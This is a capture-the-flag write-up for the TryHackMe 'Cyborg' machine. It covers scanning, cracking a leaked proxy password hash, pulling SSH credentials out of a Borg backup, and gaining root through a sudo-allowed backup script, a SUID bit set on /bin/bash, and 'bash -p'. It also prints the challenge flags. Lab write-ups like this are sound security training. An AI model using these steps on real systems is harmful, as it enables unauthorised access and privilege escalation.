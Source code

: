 # Cyborg

> Platform: TryHackMe
>
> Created by: fieldraccoon
>
> Difficulty: Easy

## Reconnaisance, Scanning & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA cyborgscan
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```

![img](gobuster.png)

When opening the **"/admin"** page, we found out that there is an **archive.tar** file that we can download. Let's download it first.

![img](download.png)

Extract the **.tar** file:
```bash
$ tar -xvf archive.tar
```

When going through the extracted files, we found out that it is a **Borg backup** file.

Also the page has another page which is **"/admin/admin/html"**. This page mentioned something about squid proxy and backup name music_archive. From the GoBuster also, when going to the **"/etc/squid"** page, we found out that there is two file which are the **"passwd"** file and **"squid.conf"** file.

![img](etcfile.png)

Let's retrieved the files.
```bash
$ wget http://<TARGET-IP>/etc/squid/passwd

$ wget http://<TARGET-IP>/etc/squid/squid.conf
```

## Exploitation

From the passwd file that we had retrieved, let's try to crack it using **John**.
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```

![img](crackpasswd.png)

Then, we can use the credentials to try extract the **"final_archive"** in the extracted file before using borg:
```bash
$ borg extract /PATH/TO/final_archive::music_archive
```

After finish extracting the files using Borg, in the file now has **/alex** directory. Try to find some clues.
```bash
$ find /PATH/TO/alex -name *.txt
/PATH/TO/alex/Desktop/secret.txt
/PATH/TO/alex/Desktop/note.txt

$ cat /PATH/TO/alex/Desktop/secret.txt
shoutout to all the people who have gotten to this stage whoop whoop!"

$ cat /PATH/TO/alex/Desktop/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Nice, looks like this maybe the **credentials for us to SSH** to the server.
```bash
$ ssh alex@<TARGET-IP>
```

Find the **"user.txt"**.

```bash
$ pwd
/home/alex

$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt

$ cat user.txt
```

## 🏳️Flag: user.txt
>**flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}**

## Privilege Escalation

Moving on to **escalate our privileges to root**.

First, try to check the sudo permission first using the command:
```bash
$ sudo -l
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Try to read the content of the **backup.sh** file.
```bash
$ cat /etc/mp3backups/backup.sh
```

![img](backupsh.png)
![img](backupsh2.png)

Looks like it is a script which will **automate backup the song files**. However, when looking at the code, there are lines where if the script is **run with c flag (-c)**, it will run the command.

Try to run the script with **whoami** command:
```bash
$ sudo /etc/mp3backups/backup.sh -c whoami
root
```

Nice, now actually we can just get the root flag here by:
```bash
$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
flag{not_the_real_root_flag} <-- You will get the real root flag here
```

But, to privilege our access to root, we can try by **changing the SUID bit of "/bin/bash"**, so that we **can access bash as root**.
```bash
$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

Now, we can run **"bash -p"** to get the bash as root:
```bash
$ bash -p

$ whoami
root

$ cat /root/root.txt
```

Now, we can read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}**